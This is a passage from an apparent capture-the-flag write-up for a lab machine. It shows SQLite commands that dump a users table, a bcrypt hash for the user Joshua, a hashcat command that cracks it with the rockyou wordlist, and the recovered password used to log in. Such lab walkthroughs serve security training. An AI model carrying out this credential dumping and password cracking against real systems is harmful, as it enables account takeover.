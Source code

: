 We extracted the user hashes out of this database using the following commands
```
sqlite3 tickets.db
SELECT * FROM users;
```
![tickets.db](/assets/img/Codify/Codify_06.png)

This gave us the following hash. for the Joshua user

```
$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

Next we cracked the hash using hashcat
```
hashcat -a 0 -m 3200 hash /usr/share/wordlists/rockyou.txt -w 3 -O
```
After a few minutes the hash was cracked and we could see the clear text password was **spongebob1**

![Cracked hash](/assets/img/Codify/Codify_07.png)

we could now log in to the machine using the Joshua user and his cleartext password spongebob1
